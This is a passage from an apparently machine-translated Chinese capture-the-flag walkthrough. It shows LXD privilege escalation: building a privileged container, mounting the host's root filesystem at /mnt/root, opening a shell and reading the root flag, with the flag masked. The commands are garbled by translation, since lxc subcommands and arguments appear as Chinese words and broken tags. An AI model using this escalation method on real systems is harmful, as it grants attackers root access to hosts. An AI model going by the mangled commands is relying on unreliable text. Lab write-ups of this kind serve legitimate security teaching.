

我用别名作为 lxdimage 你可以使用你选择的名字。我们已经将图像导入 lxd 并获得了指纹散列。

太棒了！！让我们确认图像已经导入

> lxc 图像列表



既然已经创建了映像，我们将使用该映像通过以下命令创建一台机器:

> lxc init<image_name><machine_name>-c security . privileged = true</machine_name></image_name>



确认机器已创建。

> lxc 列表



现在我们已经创建了当前停止的计算机，我们需要为该计算机创建一个硬盘驱动器，因此我们将使用以下命令对其进行配置:

> lxc 配置设备添加<machie_name>主机-根磁盘源=/路径=/mnt/根递归=真</machie_name>



现在我们已经为机器创建了一个硬盘，我们将启动机器。

> lxc 启动权限



使用命令确认机器已经启动

> lxc 列表



它确实在运行。

目前为止做得很好！！让我们提升特权。祈祷吧。

> lxc 执行 <machine_name>/bin/sh</machine_name>



我们现在可以确认我们是根了。让我们夺取根旗，给这个游戏服务器一个美好的结局。

回想一下，当我们创建硬盘时，我们将源设置为/这是根文件系统，并将路径设置为/mnt/root。整个“根”文件系统位于/mnt/root 中，因此我们将导航到/mnt/root 目录



太棒了。！我们已经得到了根旗。提交吧。

> #2.根旗是什么？
> 答:XXXXXXXXXXXXXXXXXXXXXXX



我们已经完成了房间。我真的很喜欢这个房间，并从中获得了很多乐趣。我会建议每个人都来这个房间试一试，我相信你会学到一些新的东西，特别是关于 lxd 权限提升方法。

如果你喜欢这篇文章，并且这篇文章对你有所帮助，请在评论中告诉我，或者用掌声分享你的爱。

谢谢你抽出时间。

跟着我。

更多的报道正在进行中。

保重，注意安全，继续黑！

**-哈桑·谢赫**